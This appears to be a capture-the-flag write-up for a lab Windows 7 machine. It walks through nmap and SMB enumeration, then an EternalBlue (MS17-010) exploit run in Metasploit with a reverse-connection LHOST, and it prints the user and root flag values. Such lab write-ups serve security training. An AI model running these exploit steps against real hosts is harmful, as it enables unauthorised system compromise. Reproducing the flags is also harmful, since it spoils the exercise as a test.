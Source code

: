#eternal-blue #smb #windows7
#### Nmap

```bash
sudo nmap -A -p- 10.10.10.40 
```

![Pasted image 20240401113929](/Images/Pasted%20image%2020240401113929.png)
![Pasted image 20240401114006](/Images/Pasted%20image%2020240401114006.png)
#### Port 445 (SMB)

```bash
smbclient --no-pass -L //10.10.10.40
```

![Pasted image 20240401121720](/Images/Pasted%20image%2020240401121720.png)

```bash
sudo nmap --script smb-* -p 445 10.10.10.40
```

![Pasted image 20240401123227](/Images/Pasted%20image%2020240401123227.png)

```bash
sudo nmap --script smb-protocols -p 445 10.10.10.40
```

![Pasted image 20240401123924](/Images/Pasted%20image%2020240401123924.png)

>[!success] Victim appears vulnerable to the EternalBlue exploit.
### Local Exploit
#### Metasploit

```bash
msfconsole -q
search eternal
use 1
```

![Pasted image 20240401125829](/Images/Pasted%20image%2020240401125829.png)

```bash
options
set RHOSTS 10.10.10.40
set LHOST 10.10.14.12
run
```

![Pasted image 20240401125854](/Images/Pasted%20image%2020240401125854.png)

>[!success] user.txt
>`dc32b7bfefa8ae6f1d1fc594c9133e80`
>
![Pasted image 20240401130008](/Images/Pasted%20image%2020240401130008.png)

>[!success] root.txt
>We were `nt authority\system` so could also access the Administrator's desktop.
>`aac84c29ac1b9a3b466c54e780ca8b93`
>
>![Pasted image 20240403043445](/Images/Pasted%20image%2020240403043445.png)
#### Manual

https://github.com/worawit/MS17-010